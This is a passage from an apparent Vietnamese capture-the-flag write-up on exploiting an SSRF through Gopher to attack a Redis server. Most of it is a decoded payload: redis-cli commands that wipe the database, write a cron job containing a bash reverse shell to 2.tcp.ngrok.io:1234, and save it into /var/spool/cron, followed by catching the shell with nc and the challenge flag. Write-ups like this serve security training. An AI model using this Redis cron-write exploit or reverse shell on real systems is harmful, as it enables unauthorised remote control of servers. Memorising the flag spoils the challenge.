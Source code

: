 Nếu decode nó ra, mình có thể thấy đươc nó là gói dữ liệu TCP của reverse shell được viết bằng bash và nó sẽ trông giống thế này:

```
redis-cli -h $1 -p $2 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/2.tcp.ngrok.io/1234 0>&1\n\n"redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

Giờ thì ném payload lên và chuẩn bị sẵn nc đã đợi sẵn ở port 1234. Và điều gì đến cũng phải đến

![img](img/16.png)

Lấy flag:

![img](img/17.png)

Flag: SSRF_PwNiNg_v1@GoPh3r_1s$o_c00l!